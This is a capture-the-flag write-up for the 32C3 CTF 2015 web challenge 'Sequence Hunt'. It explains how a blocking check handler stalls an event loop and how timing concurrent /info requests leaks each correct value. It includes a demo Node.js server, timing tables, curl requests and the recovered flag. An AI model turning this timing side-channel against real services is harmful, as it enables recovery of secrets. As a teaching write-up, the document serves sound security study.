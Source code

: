# 32C3 CTF 2015 : Sequence Hunt

**Category:** Web
**Points:** 200
**Solves:** 19
**Description:**

> May we interest you in a little programming exercise?
> 
> 
> <http://136.243.194.36:18888>

This is what we see opening: http://136.243.194.36:18888/
```
Sequence Hunt

Welcome to my integer sequence hunt. You have to compute five numbers between 0 and 100 implementing 
the algorithms below. When you think you have a correct solution, send them as GET parameters here. 
You can also get some info about you here.
I expect a lot of load, so I built this around async IOLoops.
Have Fun!

[EDIT] 
Someone sent me this. Since each check takes considerable time, the server now waits until 
three seconds have passed since the request came in to prevent these attacks. 
[/EDIT]

Algorithms

TODO publish algorithms
```

Opening http://136.243.194.36:18888/info we get
```
you are 37.120.106.140
request count on your IOLoop: 1
```


## Write-up

We got the following urls 
- http://136.243.194.36:18888/ - shows us the info (above)
- http://136.243.194.36:18888/check - lets us submit 5 values
- http://136.243.194.36:18888/info - shows the io loop count

The author hinted us that there's a protection against timing attacks, making each request wait until 3 seconds has passed.
And indeed, we see that it take about 3 seconds for `check` request to return, regardless of the values we provide.
```
$ time curl "http://136.243.194.36:18888/check?val0=1&val1=1&val2=1&val3=1&val4=1"
you are 37.120.106.140<br>At least one value is wrong!
0.00s user 
0.01s system 
0% cpu 
3.174 total
```

We also notice that each `check` request increaces the IOLoop count, and so does the `info` request itself. 

Sending `check` requests with various random numbers does not give us any statistically significant differences in timing.
But sending an `info` request while there's an outstanding `check` request shows significant timing side-effect.
This is because the secret algorithm blocks the IO loop, and thus blocks any further requests. 

To better understand what happens, here's a sample node js code. (run with `$ node ser.js`)

```
var http = require('http');
var url = require('url');

// even loop blocking sleep
function sleep(s) {
  var e = new Date().getTime() + s;
  while (new Date().getTime() <= e) {;}
}

var TimingAttackProtectionSeconds = 3;

var IOLoopCounter = 0;

http.createServer(function(request, response) {
  var u = url.parse(request.url, true);

  IOLoopCounter++;

  if (u.path.indexOf('/info') == 0) {
    response.writeHeader(200, {'Content-Type': 'text/html'});
    response.write('IOLoop: ' + IOLoopCounter);
    response.end();

  } else if (u.path.indexOf('/check') == 0) {
    // simulate some algo
    console.log('working hard on our input ' + JSON.stringify(u.query));

    // sleep for 0-3 secs
    var secsZzzz = Math.random() * 3;
    sleep(secsZzzz * 1000);

    // "prevent" the timing attack. wait until 3 seconds pass
    setTimeout(function() {
      response.writeHeader(200, {'Content-Type': 'text/html'});
      response.write('Blocked IO loop for: ' + secsZzzz.toFixed(2) + 's</br>');
      response.write('Total request time: ' + TimingAttackProtectionSeconds + 's</br>');
      response.end();
    }, (TimingAttackProtectionSeconds - secsZzzz) * 1000);

  }
}).listen(8080);

console.log('Server running at http://localhost:8080/');
```

What's important to see is that the sleep function blocks node's event loop (thus blocking further requests to /info), 
while the setTimeout does not, it just sends the response back asyncronically, as soon as we reach 3 seconds in total.

So now all we need to do is to send a `check` request and without waiting for the response, send an `info` request, measuring the time it takes for it to return. 
To automate the search process, and cancel out network gitter, next step was to write a python script that given a set of inputs, opens `n` threads, sends a `check` request and measures the time it takes for `info` request to return, averages the times and returns the result. I used n=5, and it proved to be enough. But it might be bigger depending on the quality of the internet connection.

Here are the results from the first run. note the significant difference with the value `4`
```
[0, 0, 0, 0, 0]: 0.4933500289916992
[1, 1, 1, 1, 1]: 0.3603970050811768
[2, 2, 2, 2, 2]: 0.42971043586730956
[3, 3, 3, 3, 3]: 0.47055706977844236
[4, 4, 4, 4, 4]: 0.9154952526092529 <<<<<<<<<
[5, 5, 5, 5, 5]: 0.46373558044433594
[6, 6, 6, 6, 6]: 0.35578303337097167
[7, 7, 7, 7, 7]: 0.441812801361084
[8, 8, 8, 8, 8]: 0.4297045707702637
```

Above difference in timing appeared only when 4 was in the first possition, so the next step was to enumerate over the rest parameters.
Second digit was found to be `12` 
```
[4, 10, 10, 10, 10]: 0.8408413887023926
[4, 11, 11, 11, 11]: 0.8593394994735718
[4, 12, 12, 12, 12]: 1.228700304031372 <<<<<<<
[4, 13, 13, 13, 13]: 0.9078318119049072
```

Third `77`
```
[4, 12, 73, 73, 73]: 1.442296075820923
[4, 12, 74, 74, 74]: 1.2971014022827148
[4, 12, 75, 75, 75]: 1.273622751235962
[4, 12, 76, 76, 76]: 1.0751570224761964
[4, 12, 77, 77, 77]: 1.9099168300628662 <<<<<<<<<<
[4, 12, 78, 78, 78]: 1.0117467403411866
[4, 12, 79, 79, 79]: 1.2718517780303955
[4, 12, 80, 80, 80]: 1.4834677696228027
```

And so on, until we got to all the params and the [flag](http://136.243.194.36:18888/check?val0=4&val1=12&val2=77&val3=98&val4=35) `[4, 12, 77, 98, 35]`

```
$ curl 'http://136.243.194.36:18888/check?val0=4&val1=12&val2=77&val3=98&val4=35'
you are 37.120.106.140
Congratulations, here is your price:
32C3_round_and_round_and_round_IT_goes
```

## Other write-ups and resources

* none yet

